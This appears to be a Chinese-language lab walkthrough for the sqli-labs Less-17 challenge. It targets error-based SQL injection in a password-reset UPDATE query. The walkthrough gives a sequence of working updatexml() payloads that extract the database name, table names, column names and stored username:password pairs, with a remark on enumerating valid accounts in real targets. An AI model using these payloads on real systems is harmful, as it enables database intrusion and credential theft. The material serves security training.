



# Chapter-1-靶场关卡标题

Less-17:POST-Update Query-Error Based-String

# Chapter-2-靶场实操完整SQLi流程

后台原始SQL：`UPDATE users SET PASSWORD='$passwd' where username='$uname'`

### 步骤一：

`localhost/Less-17/`

>注：现实场景做渗透测密码重置页面，需要先收集或探测出系统里存在的账号（比如账号枚举、泄露的账号列表），拿到有效账号，才能尝试这个注入；不知道账号就无法利用。

user name填`admin`，new password填payload，

### 步骤二：判断注入

**payloaad:**`'`

出现 SQL 报错，确认注入点在 New Password，单引号闭合

### 步骤三：爆库名

**payload:**`' or updatexml(1,concat(0x7e,database(),0x7e),1)#`

### 步骤四：爆表名

**payload:**`' or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1)#`

### 步骤五：爆字段

**payload:**`' or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1)#`

### 步骤六：爆账号密码

**payload:**`' or updatexml(1,concat(0x7e,(select * from (select concat(username,':',password) from users limit 0,1) as temp),0x7e),1)#`

